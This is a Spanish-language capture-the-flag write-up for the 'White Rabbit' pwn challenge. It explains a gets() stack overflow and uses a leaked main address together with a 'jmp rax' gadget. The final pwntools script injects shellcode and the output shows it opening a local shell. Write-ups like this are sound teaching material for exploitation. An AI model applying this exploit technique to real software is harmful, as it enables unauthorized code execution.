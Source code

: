 # Begginers / White Rabbit

Un reto de pwn, analizamos las propiedades del ejecutable

``` bash
checksec --file=white_rabbit 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   31 Symbols	  No	0		2	white_rabbit
```

+ No canary found: Es vulnerable a buffer overflow

+ NX disabled: El codigo de la pila es ejecutable

Observamos el binario
``` bash
./white_rabbit 

  (\_/)
  ( •_•)
  / > 0x5609dc927180

follow the white rabbit...
```

Nos filtran una direccion de memoria y podemos introducir datos. Desensamblamos el programa con Radare2 y observamos mejor este comportamiento al desensamblar sym.main y sym.follow respectivamente

``` asm
|           0x000011fc      488d057dff..   lea rax, [sub.dbg.main_1180] ; warmup.c:20 ; 0x1180
|           0x00001203      4889c6         mov rsi, rax
|           0x00001206      488d050d0e..   lea rax, str._______p_n_n   ; 0x201a ; "  / > %p\n\n"
|           0x0000120d      4889c7         mov rdi, rax                ; const char *format
|           0x00001210      b800000000     mov eax, 0  
|           0x00001215      e826feffff     call sym.imp.printf         ; int printf(const char *format)
```

``` asm
            ;-- follow:
            ; CALL XREF from sub.dbg.main_1180 @ 0x122e(x)
/ 23: sub.dbg.follow_1169 ();
| afv: vars(1:sp[0x78..0x78])
|           0x00001169      55             push rbp                    ; warmup.c:8 ; void follow();
|           0x0000116a      4889e5         mov rbp, rsp
|           0x0000116d      4883ec70       sub rsp, 0x70
|           0x00001171      488d4590       lea rax, [buf]              ; warmup.c:10
|           0x00001175      4889c7         mov rdi, rax                ; char *s
|           0x00001178      e8d3feffff     call sym.imp.gets           ; char *gets(char *s)
|           0x0000117d      90             nop                         ; warmup.c:11
|           0x0000117e      c9             leave
\           0x0000117f      c3             ret
```

Podemos ver que la dirección que se filtra es la de la función main, luego en sym.follow se encuentra la entrada de usuario capturada con gets (una función vulnerable). 

Podemos darnos cuenta de que se reservan 120 bytes antes de la direccion de retorno de main:

``` asm
    push rbp  -> reserva 8 bytes porque estamos en una arquitectura x86_64 y por lo tanto este registro es de 64 bits
    sub rsp, 0x70   ->  reserva 0x70(112 en decimal) bytes
```

Entonces ya tenemos el offset, probamos a llamar de nuevo a una dirección conocida (como main) para comprobar nuestra suposición

``` python3
# test.py
from pwn import *
import re

io = process('./white_rabbit')
elf = context.binary = ELF('./white_rabbit')

leak = io.recv()                                                
main = int(re.findall(b'0x[a-f0-9]+',leak)[0].decode(),0)       # Extraemos la direccion de memoria con una expresion regular

print(leak.decode())
payload = cyclic(120)                                           # offset
payload += p64(main)                                            # retorno

io.sendline(payload)

print(io.recv().decode())
io.close()
```


``` bash
python3 test.py 
[+] Starting local process './white_rabbit': pid 8850
[*] '/home/kalcast/Descargas/World_Wide_CTF_2024/Begginers/WhiteRabbit/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes

  (\_/)
  ( •_•)
  / > 0x555f7a73d180

follow the white rabbit...


  (\_/)
  ( •_•)
  / > 0x555f7a73d180

follow the white rabbit...

[*] Stopped process './white_rabbit' (pid 8850)
```

En efecto, tenemos control de RIP. Ahora tenemos que introducir un shellcode en la pila y encontrar una forma de apuntar a esta dirección

``` asm
   lea rax, [buf]   -> rax almacena la direccion base del buffer en la pila
```

Buscamos un gadget del tipo 'jmp rax'. En radare podemos hacer esto con `/R jmp rax`

```

``` asm 
/R jmp rax
  0x000010b1               7415  je 0x10c8
  0x000010b3     488b050e2f0000  mov rax, qword [rip + 0x2f0e]
  0x000010ba             4885c0  test rax, rax
  0x000010bd               7409  je 0x10c8
  0x000010bf               ffe0  jmp rax
``` 

Buscamos su desplazamiento con respecto a la direccion de main. Podemos ver la direccion de main listando las funciones con `afl` 

``` bash
python3
Python 3.12.7 (main, Oct  3 2024, 15:15:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(0x00001180-0x000010bf)
'0xc1'
```

Ya tenemos todo lo necesario

``` python3
# rabbit.py
from pwn import *
import re

io = process('./white_rabbit')
elf = context.binary = ELF('./white_rabbit')

leak = io.recv()
main = int(re.findall(b'0x[a-f0-9]+',leak)[0].decode(),0)
shellcode = asm(shellcraft.sh())                           
jmp_rax = main - 0xc1

payload = shellcode
payload += cyclic(120-len(shellcode))
payload += p64(jmp_rax)

io.sendline(payload)
io.interactive()
io.close()
```

``` bash
 python3 rabbit.py 
[+] Starting local process './white_rabbit': pid 9346
[*] '/home/kalcast/Descargas/World_Wide_CTF_2024/Begginers/WhiteRabbit/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
[*] Switching to interactive mode
$ ls
rabbit.py  test.py  white_rabbit
```






